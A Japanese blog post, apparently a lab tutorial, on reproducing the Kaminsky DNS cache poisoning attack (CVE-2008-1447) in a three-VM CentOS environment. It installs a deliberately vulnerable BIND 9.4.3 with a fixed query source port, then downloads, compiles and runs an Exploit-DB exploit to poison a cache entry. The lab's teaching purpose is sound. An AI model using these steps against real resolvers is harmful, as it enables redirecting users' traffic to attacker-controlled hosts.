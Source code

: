```yaml
---
layout: post
title:  "DNSキャッシュポイズニング"
date:   2018-08-21
permalink: /security/:title
categories: Security
tags: DNS PWN CVE-2008-1447 CVE-2008-4194
excerpt: DNSキャッシュポイズニングのハンズオンシナリオです
mathjax: false
---
```

 
* content
{:toc}

## 攻撃の概要

### キャッシュの仕組み
DNSキャッシュサーバ自身はゾーンファイルを保持しない。
問い合わせに応じて権威DNSサーバに問い合わせた結果をそのまま返す。
この時取得したレコードはキャッシュに保存される。
キャッシュが破棄される前に同じ問い合わせがあった場合は権威DNSサーバに問い合わせずに結果を返す。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns002.png)

### 階層構造の仕組み
ある権威DNSサーバの管理下に無いドメインの問い合わせは別の権威DNSサーバにリダイレクトされる。
権威DNSサーバはadditionalレコードに別の権威DNSサーバのホスト名とIPアドレスを指定してリゾルバに返す。
リゾルバはこれを参照して別の権威DNSサーバに問い合わせる。
これを繰り返すことでDNSの階層構造が実現される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns003.png)

### 攻撃の仕組み

攻撃対象ドメインに存在しないホストの名前解決をリクエストしてから、権威DNSサーバの応答よりも早く偽の応答を送り付ける。
偽の応答のadditionalレコードには権威DNSサーバとして攻撃対象ホストと偽のIPアドレスを指定する。
脆弱性のあるDNSキャッシュサーバはadditionalレコードの情報をキャッシュするので、これ以降のwww.sample.localの名前解決には100.100.100.100が返される。

![]({{site.baseurl}}/images/dns-cache-poizoning/dns004.png)

攻撃の詳細はJPRSの[Kaminsky Attackの全て][Kaminsky Attackの全て]を参照

## サーバ構築

3台のCentOS7でPoC環境を構築する。

![]({{site.baseurl}}/images/dns-cache-poizoning/env.png)

個々のサーバを構築する前によく使うツールを全てのホストに入れておくこと。

```bash
# yum install -y vim wget gcc bind-utils
```

### 権威DNSサーバ
named.confの記述
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file  "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query       { any; };
};
zone "sample.local" IN {
  type master;
  file "sample.local.zone";
};
```

zoneファイルの記述
```bash
# vim /var/named/sample.local.zone

@     IN    SOA    sample.local. root.sample.local. (
                   2018062901
                   60
                   60
                   60
                   60
                   )
;
      IN    NS     ns.sample.local.
;
      IN    MX     0 mail.sample.local
;
ns    IN    A      172.16.0.3
www   IN    A      172.16.0.100
mail  IN    A      172.16.0.100
```

攻撃を成功させやすくするためにNICに200msの遅延を設定
```bash
# tc qdisc add dev enp0s8 root netem delay 200ms
```

サービス起動
```bash
# systemctl start named
```

### DNSキャッシュサーバ
デフォルトのnamedを削除して脆弱性のあるバージョン9.4.3をソースからインストールする
```bash
# yum -y remove bind
# wget https://ftp.isc.org/isc/bind9/9.4.3/bind-9.4.3.tar.gz
# tar zxvf bind-9.4.3.tar.gz
# cd bind-9.4.3
# ./configure
# make
# make install
```
起動スクリプトの作成
```bash
# vim /usr/lib/systemd/system/named.service

[Unit]
Description=Berkeley Internet Name Domain (DNS)

[Service]
Type=forking
PIDFile=/run/named/named.pid

ExecStartPre=/bin/bash -c 'if [ ! "$DISABLE_ZONE_CHECKING" == "yes" ]; then /usr/local/sbin/named-checkconf -z /etc/named.conf; else echo "Checking of zone files is disabled"; fi'

ExecStart=/usr/local/sbin/named -u named $OPTIONS

ExecReload=/bin/sh -c '/usr/local/sbin/rndc reload > /dev/null 2>&1 || /bin/kill -HUP $MAINPID'

ExecStop=/bin/sh -c '/usr/local/sbin/rndc stop > /dev/null 2>&1 || /bin/kill -TERM $MAINPID'

PrivateTmp=true

[Install]
WantedBy=multi-user.target
```
named.confの作成

権威DNSサーバにソースポート10000で問い合わせるようにする
```bash
# vim /etc/named.conf

options {
  directory "/var/named";
  pid-file "/run/named/named.pid";
  listen-on port 53 { any; };
  allow-query { any; };
  forwarders { 172.16.0.3; };
  query-source address * port 10000;
  recursion yes;
};
```

pidファイルの所有権を変更する
```bash
# useradd named
# chown named:named /run/named
```

サービス起動
```bash
# systemctl daemon-reload
# systemctl start named
```
### 攻撃サーバ
CVE-2008-1447/CVE-2008-4194のエクスプロイトコードをコンパイルする
```bash
# wget https://www.exploit-db.com/download/6130.c
# yum install -y libdnet-devel
# ln -s /usr/include/dnet.h /usr/include/dumbnet.h
# gcc -o kaminsky-attack 6130.c `dnet-config --libs` -lm
```

## 攻撃
sample.localのDNSキャッシュサーバを攻撃してwwwのキャッシュを1.2.3.4に書き換える
```bash
# ./kaminsky-attack 172.16.0.1 172.16.0.2 172.16.0.3 10000 www sample.local. 1.2.3.4 8192 16
```
キャッシュが1.2.3.4に書き換えられた事を確認する
```bash
# dig @172.16.0.2 www.sample.local
```

裏でどんなパケットが飛んでいて、サーバのログには何が残っているのか確認しておくと良い。

## 参考情報
- [JPRS](https://jprs.jp/glossary/index.php?ID=0228)
- [Kaminsky Attackの全て][Kaminsky Attackの全て]
- [Exploit-DB](https://www.exploit-db.com/exploits/6130/)

[Kaminsky Attackの全て]: https://www.nic.ad.jp/ja/materials/iw/2008/proceedings/H3/IW2008-H3-07.pdf
